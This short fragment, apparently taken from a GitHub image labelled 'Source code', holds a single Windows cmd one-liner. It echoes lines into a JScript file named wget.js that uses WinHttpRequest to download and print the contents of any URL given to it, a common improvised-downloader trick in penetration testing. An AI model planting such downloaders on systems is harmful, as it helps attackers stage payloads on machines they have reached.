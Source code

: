 @'echo var WinHttpReq = new ActiveXObject(^"WinHttp.WinHttpRequest.5.1^"); > c:%homepath%\wget.js "&" echo WinHttpReq.Open(^"GET^", WScript.Arguments(0), /*async=*/false); >> c:%homepath%\wget.js "&" echo WinHttpReq.Send(); >> c:%homepath%\wget.js "&" echo WScript.Echo(WinHttpReq.ResponseText); >> c:%homepath%\wget.js'@
